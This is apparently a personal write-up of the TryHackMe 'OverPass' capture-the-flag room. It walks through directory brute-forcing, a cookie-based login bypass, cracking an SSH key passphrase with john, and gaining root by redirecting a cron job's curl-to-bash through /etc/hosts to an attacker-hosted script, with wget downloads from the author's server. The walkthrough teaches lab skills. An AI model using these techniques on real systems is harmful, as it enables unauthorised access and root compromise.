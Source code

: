 ```yaml
---
layout: post
title: "OverPass"
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe"
---
```


# OverPass
*What happens when some broke CompSci students make a password manager?*

tool used: **Nmap**, **Gobuster**, **Burp**, **ssh2John**, **john**, **linPEAS**

After running Nmap scan I opened the browser searching the machine's IP address. This lands me up to a homepage website and found two directory: **About me** and **download** page. I checked the source of the homepage but i found nothing interesting.

### Gobuster

Since nothing really stuck out i decided to use gobuster to check if there are other directories. I used common wordlist from dirb as the wordlist. After running gobuster i find the **/admin** directory, it was an admin login page i tried the default admin username and password but it did not work


```bash
#Gobuster Command:

gobuster dir -u <url> -w <wordlist>

```

### Burp Intruder
I will be attempting to use Burp intruder to automate the brute forcing of the admin login. I have never used Burp Intruder so this will be a new experience for me.

Reading through the login.js i see that it reads the status of the cookie. If the cookie shows *incorrect credentials* it wont login but if the cookie is set to be Session Token it will allow me to login. Meaning that Bruteforcing might not be needed to bypass the login. Because of the *IF statement* if i changed the cookie to anything but 'incorrect credentials' i will be able to bypass the login.

![Login JaveScript](/images/loginOverpass.png)

 I went back to the browser opened the inspect so i can use the console there to set the cookie as 'AtomicScript' and After refreshing the page i get a private key that i believe needs to be decrypted.

 ```js
 //javascript setting cookie:

 Cookies.set("SessionToken",'AtomicScript')

 ```

### John

After refreshing the page I landed into a page that had a private RSA key of someone named James. In order for me to crack the private key I need to do the following:
1. use ssh2john to get the hash of the private key
2. use John to crack the hash with a rockyou wordlist  

I copied the Private RSA key into a file in my directory so i can use ssh2john with the following command:
'''

'''

```bash
# Used ssh2John to get the hash

python ssh2john.py id_rsa > id_rsa.hash

```

```bash
# Used John to get the password from the hash

sudo john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt

```
[Using JOHN & SSH2JOHN to crack a id_rsa private key](https://m0053sec.wordpress.com/2020/02/08/using-john-ssh2john-to-crack-a-id_rsa-private-key/)


### SSH
with that we found the password! I went back to the admin page and tried it with the username James but it say incorrect credential. I was hoping it would work. I used the below command to ssh with the id_rsa I found and passed the password as the phrase.

```bash
# SSH as james

ssh -i id_rsa james@[ip-address]

```

## Privilege escalation
Now that we have logged in as a normal I need to escalate my privilege to fully complete the challenge. I found two files one containing the first key and the second contains a to do list, it mentions that a password is in the password manager. I dont have access to tryhackme home directory sadly.

### [LinPeas](https://blog.cyberethical.me/linpeas)

linPEAS performs Privilege escalation in the victim machine, and I wanted to try it to escalate my Privilege and learn on how the script work.

1. Downloaded the script file in the directory I was working on
2. Used python to host a web server
3. Used the Terminal with the remote connection to the machine to download the script in the **TMP** Directory. Any directory wont work it will show as bad permission.
4. Made sure that the script has the permission to execute and ran it.



#### Downloading the script file only

```bash
# Downloading the linpeas script file

wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -O linpeas.sh

```

#### Hosting with python

```bash
# Hosting the http server using python3

python3 -m http.server

```


#### downloading the script.
```bash
# Downloading the linpeas script from my hosted server

wget http://[myip]:[port]/linpeas.sh

```

I used a [guide](https://0xnirvana.medium.com/tryhackme-overpass-90abe32320a1) to understand what is needed to look for and what is needed done to gain access to the root or to find the flag.

#### CronTab

The trick was in the cron tab. The Crontab curls the buildscript.sh from the overpass.thm and sends the result to the bash as the root. From my understanding if we get access to editing the buildscript and the crontab runs it as root we would technically have access to anything as root.

I used the command cat /etc/hosts to find out about the overpass.thm. It was there with the local host now if i modified the ip address associated with the overpass.thm and changed it to be my own ip address, then the machine would think Im overpass.thm.

```bash
# Find out who is overpass.thm

cat /etc/hosts

```

The only problem now is that it would be looking for the buildscript.sh in my own machine and it wont find it. I created the script with the command *cat /root/root.txt > /tmp/flag*. Now i went back to the ssh connection and created the flag file since that does not exists. I went back and hosted the http server in the parent directory of the download/src and waited for the cron to do its job. After getting the *200* status I checked the flag file and it worked!
